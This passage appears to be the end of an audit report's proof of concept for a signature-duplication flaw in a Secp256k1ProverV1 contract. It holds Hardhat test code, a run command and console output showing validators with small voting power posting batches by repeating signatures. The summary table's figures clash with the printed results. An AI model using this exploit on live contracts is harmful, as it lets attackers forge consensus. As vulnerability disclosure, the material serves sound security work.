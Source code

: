 ```solidity
        .to.emit(customProver, 'BatchPosted')
        .withArgs(newBatch.batchHeight, newBatchId, batchSender.address);
      
      // Verify success
      const lastBatchHeight = await customProver.getLastBatchHeight();
      expect(lastBatchHeight).to.equal(newBatch.batchHeight);
      
      console.log(`EXPLOIT SUCCESSFUL: ${powerPercentage.toFixed(2)}% validator can update batches with ${duplicatesNeeded} duplicates`);
    }
  }
});
```

The results demonstrate how validators with any amount of power can exploit the vulnerability:

Validator Power | Duplicates Required | Notes
-- | -- | --
0.25% | 267 | Even tiny validators can exploit the vulnerability
1% | 67 | Small validators need moderate duplication
5% | 14 | Medium validators need minimal duplication
10% | 7 | Larger validators need very few duplicates

The lower the validator's power, the more duplicates are needed, but all validators can eventually reach the threshold.

Command to run test:
```bash
npx hardhat test test/prover/Secp256k1ProverV1.test.ts --grep "proves vulnerability scales with validator power percentage"
```

Result example:
```bash

  Secp256k1ProverV1

Testing: Tiny validator (0.25%)
Validator has 252525 voting power (0.25% of total)
Need 265 duplicates to reach consensus threshold
EXPLOIT SUCCESSFUL: 0.25% validator can update batches with 265 duplicates

Testing: Small validator (1%)
Validator has 1041666 voting power (1.04% of total)
Need 65 duplicates to reach consensus threshold
EXPLOIT SUCCESSFUL: 1.04% validator can update batches with 65 duplicates

Testing: Medium validator (5%)
Validator has 2777777 voting power (2.78% of total)
Need 25 duplicates to reach consensus threshold
EXPLOIT SUCCESSFUL: 2.78% validator can update batches with 25 duplicates

Testing: Larger validator (10%)
Validator has 3125000 voting power (3.13% of total)
Need 22 duplicates to reach consensus threshold
EXPLOIT SUCCESSFUL: 3.13% validator can update batches with 22 duplicates
    ✔ proves vulnerability scales with validator power percentage (1559ms)


  1 passing (2s)
```
